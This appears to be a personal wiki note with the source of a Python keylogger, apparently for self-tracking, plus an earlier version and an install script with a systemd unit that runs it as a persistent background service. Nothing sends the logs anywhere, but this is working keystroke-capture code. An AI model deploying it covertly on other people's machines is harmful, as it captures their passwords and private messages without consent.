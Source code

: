 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
---
```

``` python    
#!/bin/python3
from pynput import keyboard
import logging
import os
import socket

# log_dir = os.environ['quantized_self_dir']
log_dir = "/home/paul/Documents/Software/keylogger"
os.makedirs(log_dir)
logging.basicConfig(filename = log_dir + "/{}keyLog.txt".format(str(socket.gethostname())), 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
```

## Previous Tries

``` python

# keylogger.py
import keyboard # for keylogs
from datetime import datetime

# https://www.thepythoncode.com/article/write-a-keylogger-python
# https://github.com/boppreh/keyboard#keyboard.hook

class Keylogger:
    def callback_pressed(self, event):
        # print(event.name)
        # print(event.event_type)
        with open(f"./test-keylog.txt", "a") as f:
            event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
            print(event_string, file=f)
    def start(self):
        keyboard.hook(callback=self.callback_pressed)
        keyboard.wait()
if __name__ == "__main__":
    keylogger = Keylogger()
    keylogger.start()
```

## install.sh

``` bash
#!/bin/bash
sudo cp keylogger.service /etc/systemd/system/keylogger.service
sudo systemctl enable keylogger.service
sudo systemctl start keylogger.service
```

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
After=multi-user.target

[Service]
ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out

[Install]
WantedBy=multi-user.target
```

## Links

* [wiki.software.Catagories.Keylogger](/undefined)

## Sources

* [https://www.tutorialspoint.com/design-a-keylogger-in-python](https://www.tutorialspoint.com/design-a-keylogger-in-python) [https://realpython.com/python-logging/](https://realpython.com/python-logging/)